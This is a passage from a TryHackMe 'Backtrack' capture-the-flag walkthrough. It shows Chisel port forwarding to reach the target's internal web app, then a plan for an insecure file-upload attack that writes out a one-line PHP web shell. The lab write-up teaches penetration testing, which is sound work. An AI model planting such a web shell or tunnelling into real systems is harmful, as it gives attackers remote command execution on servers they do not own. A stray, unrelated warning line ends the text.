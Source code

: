 We can use Chisel's client to connect to the server running on the target and perform local port forwarding. This will redirect all traffic sent to our local specified port to the target's specified local port.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Backtrack/Misc File]
└─$ chisel client -v 10.10.242.37:5555 8080:127.0.0.1:80 
2024/10/14 12:49:43 client: Connecting to ws://10.10.242.37:5555
2024/10/14 12:49:43 client: tun: proxy#8080=>80: Listening
2024/10/14 12:49:43 client: tun: Bound proxies
2024/10/14 12:49:43 client: Handshaking...
2024/10/14 12:49:45 client: Sending config
2024/10/14 12:49:45 client: Connected (Latency 307.087458ms)
2024/10/14 12:49:45 client: tun: SSH connected
```

Now that the port forwarding is set, we can access the web application by browsing to our local port 8080.
![](/assets/img/posts/walthrough/tryhackme/2024-10-17-backtrack/local-app.png)

The message in Wilbur's home directory indicated that this web application is an image gallery hence we can think of an insecure file upload vulnerability. Also, the message contained the credentials to log into the application. We can use the credentials above to log into the application.
![](/assets/img/posts/walthrough/tryhackme/2024-10-17-backtrack/login.png)

From the file extension of the login page, we can deduce that the web application uses PHP as its scripting language. With this information, we can create a simple PHP web shell that we will try to upload.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Backtrack/Misc File]
└─$ echo '<?php system($_GET["cmd"]); ?>' > shell.php                   
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that